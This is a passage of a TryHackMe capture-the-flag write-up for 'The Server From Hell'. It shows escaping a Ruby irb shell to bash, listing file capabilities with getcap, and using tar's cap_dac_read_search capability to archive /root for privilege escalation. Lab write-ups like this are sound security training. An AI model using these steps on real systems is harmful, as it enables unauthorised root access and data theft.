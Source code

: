 ![alt text](https://github.com/Soumyanil-Biswas/TryHackMe/blob/main/The%20Server%20From%20Hell/images/ssh_port_entry.png?raw=true)
### We can see that on port 3333, ssh was open...
### Now we can see that we got a shell, but it is not bash or any other normal shell. After a quick Google search, I came to know this is a ruby shell.
### To get bash shell:
```
irb(main):001:0> system("/bin/bash")
```
### Now we can see the "_user.txt_" file
* [x] Got the 2nd Flag as well!!
## 8.
### Now the last one.
### HINT: getcap
> ---> Somehow we will need to use getcap, OK?!
```
hades@hell:~$ getcap
usage: getcap [-v] [-r] [-h] <filename> [<filename> ...]

        displays the capabilities on the queried file(s).
```
```
hades@hell:~$ getcap -r / 2> /dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```
### Now we will use tar to escalate our priv.
```
hades@hell:/tmp$ tar -cvf root.tar /root
```